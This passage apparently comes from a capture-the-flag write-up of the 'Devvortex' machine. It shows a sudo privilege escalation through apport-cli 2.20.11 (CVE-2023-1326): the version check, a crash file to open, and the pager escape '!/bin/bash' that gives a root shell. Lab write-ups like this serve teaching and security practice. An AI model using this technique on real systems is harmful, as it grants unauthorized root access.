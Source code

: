 The version of apport-cli is 2.20.11. It seems to be one of the vulnerable versions. Source: [https://github.com/diego-tella/CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC). 

```shell
logan@devvortex:~$ sudo /usr/bin/apport-cli -v
2.20.11
```

The POC of the vulnerability is as follows:

```shell
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```

In the directory "/var/crash" there is a crash file.

```shell
logan@devvortex:~$ ls -l /var/crash/
total 32
-rw-r----- 1 logan logan 30276 Jan 24 21:22 _usr_bin_sleep.1000.crash
```

All we have to do is to try the exploit.

![](img/devvortex19.png)
